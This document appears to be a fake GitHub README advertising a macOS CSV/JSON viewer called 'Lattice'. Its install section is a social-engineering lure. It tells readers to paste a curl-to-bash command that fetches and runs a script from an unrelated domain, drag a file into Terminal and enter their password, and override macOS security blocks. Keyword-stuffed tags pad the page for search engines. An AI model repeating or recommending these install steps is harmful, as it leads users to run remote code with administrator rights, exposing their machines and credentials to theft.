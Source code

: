 <p align="center">
  <img src="https://i.ibb.co/QFfC1Xk3/1684165573-icon.webp" alt="Lattice macOS Banner" />
</p>

<h1 align="center">Lattice for macOS</h1>

<p align="center">
  📊 A fast, modern data viewer for CSV, JSON, and Excel — optimized for clarity and speed.  
  <br><br>
  ✅ Supports macOS Sonoma, Ventura, Monterey  
  ✅ Native Apple Silicon & Intel  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/209" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20LATTICE%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Lattice for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/cSK1dCNm/1670155929-1.jpg" alt="Lattice Table Viewer UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Lattice for macOS?

**Lattice for macOS** is a fast, minimal file viewer and lightweight data inspector for working with structured files like CSV, JSON, TSV, and Excel. It’s ideal for developers, analysts, and anyone who needs to browse large datasets without the weight of spreadsheet software.

Lattice offers a scroll-optimized columnar interface, syntax-aware formatting, and instant loading of large files. With full native support for Apple Silicon and macOS design conventions, it’s a perfect tool for clean data inspection.

---

## ✅ Why Choose Lattice?

- 📑 **View CSV, TSV, Excel, JSON, and More**  
- ⚡ **Fast Parsing of Large Datasets**  
- 🧭 **Scroll & Filter-Friendly Layout**  
- 🧮 **Minimal Memory Usage**  
- 🎯 **Ideal for Developers, QA, and Analysts**  
- 🧰 **No Cloud, Fully Local File Access**  
- 🍎 **Optimized for Apple Silicon M1/M2/M3**  
- 🖥️ **Dark Mode + Retina Ready UI**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/1Y0KRPL8/1670155931-3.jpg" alt="CSV File View in Lattice Mac Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/QvNfsnSV/1670155930-2.jpg" alt="JSON Viewer Lattice Interface Screenshot" />
</p>

---

## 🚀 Key Features

- Parse CSV/TSV files with intelligent column detection  
- Pretty-printed JSON viewer with collapsible trees  
- Excel XLSX table viewer without Office dependency  
- Search, scroll, and zoom large datasets easily  
- Support for UTF-8, ANSI, Unicode, emoji  
- Native dark mode + low CPU footprint  
- No telemetry, no background services  
- Offline and fully self-contained

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Lattice manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-CSV%2FJSON+Table+Viewer-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Data+Inspector+Utility-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Lattice – Clean Data, Fast Views

Thanks for using **Lattice for macOS**.  
A simple way to inspect structured data.

---

## 🧭 Usage Context

Lattice is intended for local data analysis, QA, and inspection workflows.  
It works completely offline and has no background activity or tracking.

Perfect for devs, testers, and analysts.

---

## 🔍 Tags

```text
lattice for mac download, view csv files mac m1, json file viewer macos utility, lattice app open excel sheets mac, mac data inspector for structured files, csv and json side by side mac, fast table viewer for macbook pro, lattice offline data browser mac, simple spreadsheet viewer app mac, open xlsx without excel macos, lattice native apple silicon utility, csv large file preview tool mac, lattice json parser download mac, lightweight table explorer mac, tabular data reader macbook air
